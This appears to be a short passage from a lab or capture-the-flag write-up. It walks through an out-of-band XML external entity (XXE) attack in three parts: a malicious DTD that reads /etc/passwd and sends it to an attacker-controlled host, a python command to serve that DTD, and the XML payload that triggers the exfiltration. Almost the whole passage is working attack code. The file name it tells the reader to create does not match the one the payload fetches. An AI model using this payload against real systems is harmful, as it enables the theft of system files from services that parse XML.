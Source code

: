 - - -
Create file named **xxe.dtd** with the following content : 

```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">

<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://[kali-ip]/out?%content;'>" >
```

Serve file with http : 
```python
python3 -m http.server 80
```

Our Payload will be : 

```xml
<!DOCTYPE oob [  
<!ENTITY % base SYSTEM "http://[kali-ip]/external.dtd">   
%base;  
%external;  
%exfil;  
]>
```

Now, Check incoming requests on your python server.


